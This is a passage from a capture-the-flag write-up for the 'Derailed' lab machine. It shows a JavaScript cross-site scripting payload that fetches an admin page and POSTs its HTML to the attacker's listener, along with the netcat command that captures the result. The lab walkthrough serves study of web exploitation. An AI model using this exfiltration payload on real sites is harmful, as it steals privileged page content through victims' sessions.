 ## Shell as rails <a href="#shell-as-rails" id="shell-as-rails"></a>

I want to see what the `/administration` looks like. I create a JavaScript payload to fetch it and send it to me:

```javascript
fetch("http://derailed.htb:3000/administration")
.then((resp) => resp.text())
.then((html) => {
    fetch("http://10.10.14.6:9001/exfil", {
    method: "POST",
    body: html,
    });
});
```

I save and resubmit the note for review. Then, I begin capturing POST requests on port 9001 with the page in the body. After one minute, there is a successful request.

```apacheconf
msplmee@kali:~$ nc -lnvp 9001 > administration.html
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.190] 59824
```

I open the web page in my browser, and even without the CSS loading, I can still get a basic sense of the page.

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
